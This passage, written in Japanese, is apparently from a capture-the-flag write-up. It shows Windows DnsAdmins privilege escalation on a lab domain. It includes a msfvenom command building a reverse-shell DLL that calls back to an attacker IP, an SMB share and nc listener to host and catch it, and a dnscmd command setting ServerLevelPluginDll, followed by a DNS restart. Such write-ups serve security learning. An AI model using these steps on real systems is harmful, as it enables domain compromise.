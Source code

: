 c.f.) 
- [Read Teaming Experiments](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)
- https://youtu.be/8KJebvmd1Fk
- [日本語resolu手のwriteup](https://qiita.com/MarshMallow_sh/items/52e04ee4166c7b2b345c#dnsadmins%E6%A8%A9%E9%99%90%E3%82%92%E7%94%A8%E3%81%84%E3%81%9F%E6%A8%A9%E9%99%90%E6%98%87%E6%A0%BC)
- https://phackt.com/dnsadmins-group-exploitation-write-permissions

**WindowsのDNSにはカスタムプラグインとしてDLLを読み込む機能がある。<br>（dns.exeがSYSTEM権限で動いているという前提で）そのカスタムプラグインとしてrevshellを
起動するようなDLLを読み込ませればよい！**


#### ryanはDnsAdminsグループに属す：

```
*Evil-WinRM* PS C:\> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ===============================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
MEGABANK\Contractors                       Group            S-1-5-21-1392959593-3013219662-3596683436-1103 Mandatory group, Enabled by default, Enabled group
MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level
```

#### dnsが動いてることを確認：

```
*Evil-WinRM* PS C:\Users\ryan> Get-Process -Name dns

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   5307    3699    69092      68004              3404   0 dns
```

#### dnsサービスの確認：

```
*Evil-WinRM* PS C:\Users\ryan> sc.exe query dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

#### マリシャスdll（ペイロード）の作成：

```
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=4444 -f dll --platform windows -o rev.dll
```

#### rev.dllがあるディレクトリでsmbサーバを立てる：

（DLLをアップロードすると検疫されてしまうのでその対策）

```
sudo impacket-smbserver kali ./
or
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali . -smb2support
```

#### 早めにkali側でlistenerを立てておく：

```
$ nc -nvlp 4444
```

#### ryanのリバースシェル上でマリシャスdllをdnsで設定：
> - According to Microsoft protocol specification, the **ServerLevelPluginDl** operation enables us to load a dll of our choosing.
> - dnscmd.exe already implements this option: `dnscmd.exe /config /serverlevelplugindll \\path\to\dll`
> - When executing this dnscmd.exe command as a user (a member of DnsAdmins), this registry key is populated: `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll`

*（注意）このマシンは1分ごとに各サービスが再起動するように設定されていることがnote.txtよりわかっている。*

[ryanのリバースシェル上]

```
*Evil-WinRM* PS C:\Users\ryan> dnscmd.exe resolute.megabank.local /config /serverlevelplugindll \\10.10.14.3\kali\rev.dll
or
*Evil-WinRM* PS C:\Users\ryan> dnscmd.exe 127.0.0.1 /config /serverlevelplugindll \\10.10.14.3\kali\rev.dll
```
レジストリの値`ServerLevelPluginDll`がきちんと我々のマリシャスdllを指し示してることを確認：

```
*Evil-WinRM* PS C:\Users\ryan\Documents> Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll


ServerLevelPluginDll : \\10.10.14.3\kali\rev.dll
PSPath               : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\DNS\Parameters\
PSParentPath         : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\DNS
PSChildName          : Parameters
PSDrive              : HKLM
PSProvider           : Microsoft.PowerShell.Core\Registry
```


#### DNSを再起動：

```
*Evil-WinRM* PS C:\Users\ryan> sc.exe stop dns

*Evil-WinRM* PS C:\Users\ryan> sc.exe start dns
```
